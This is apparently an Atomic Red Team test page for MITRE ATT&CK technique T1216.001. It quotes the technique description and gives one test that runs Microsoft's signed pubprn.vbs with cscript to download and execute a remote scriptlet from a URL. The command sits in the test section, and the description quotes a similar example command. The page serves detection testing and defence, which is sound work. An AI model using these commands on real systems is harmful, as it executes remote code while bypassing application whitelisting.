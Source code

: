 # T1216.001 - PubPrn
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1216.001)
<blockquote>Adversaries may use the trusted PubPrn script to proxy execution of malicious files. This behavior may bypass signature validation restrictions and application whitelisting solutions that do not account for use of these scripts.

<code>PubPrn.vbs</code> is a Visual Basic script that publishes a printer to Active Directory Domain Services. The script is signed by Microsoft and can be used to proxy execution from a remote site.(Citation: Enigma0x3 PubPrn Bypass) An example command is <code>cscript C[:]\Windows\System32\Printing_Admin_Scripts\en-US\pubprn[.]vbs 127.0.0.1 script:http[:]//192.168.1.100/hi.png</code>.</blockquote>

## Atomic Tests

- [Atomic Test #1 - PubPrn.vbs Signed Script Bypass](#atomic-test-1---pubprnvbs-signed-script-bypass)


<br/>

## Atomic Test #1 - PubPrn.vbs Signed Script Bypass
Executes the signed PubPrn.vbs script with options to download and execute an arbitrary payload.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_payload | A remote payload to execute using PubPrn.vbs. | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1216.001/src/T1216.001.sct|


#### Attack Commands: Run with `command_prompt`! 


```cmd
cscript.exe /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs localhost "script:#{remote_payload}"
```






<br/>
